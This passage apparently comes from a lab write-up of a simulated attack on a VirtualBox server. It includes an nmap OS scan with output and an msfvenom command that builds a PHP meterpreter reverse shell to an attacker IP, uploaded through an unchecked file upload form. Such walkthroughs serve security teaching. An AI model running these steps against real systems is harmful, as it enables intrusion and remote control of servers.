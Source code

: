 > Although the simulation has limitations, I personally believe that it is sufficient for abstract testing purposes.


## Process of attack

Someone always likes to cause trouble, and a hacker has scanned the server...
```bash
$ sudo nmap -O -v 192.168.0.116
```

The result is as follows:
```txt
Nmap scan report for 192.168.0.116
Host is up (0.00028s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:B7:2E:E5 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10
Uptime guess: 49.708 days (since Sat Aug  8 02:56:12 2020)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros

Read data files from: /usr/bin/../share/nmap
OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.13 seconds
           Raw packets sent: 1023 (45.806KB) | Rcvd: 1015 (41.286KB)
```

He was surprised to find that the kernel version was only `2.6.32`, which was a first for him. In addition, there were open ports for SSH and HTTP, which gave him a good opportunity.

He attempted to access the website and discovered a file upload point on the site.


![](/img/2020-09-26_21-18.png)

With a "let's give it a try" attitude, he generated a payload using msf.
```bash
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.0.109 LPORT=4444 -o shell.php
```

He selected a file and clicked upload, and was surprised to find that not only was the upload successful, but he was also informed of its location.
![](/img/2020-09-26_21-22.png)
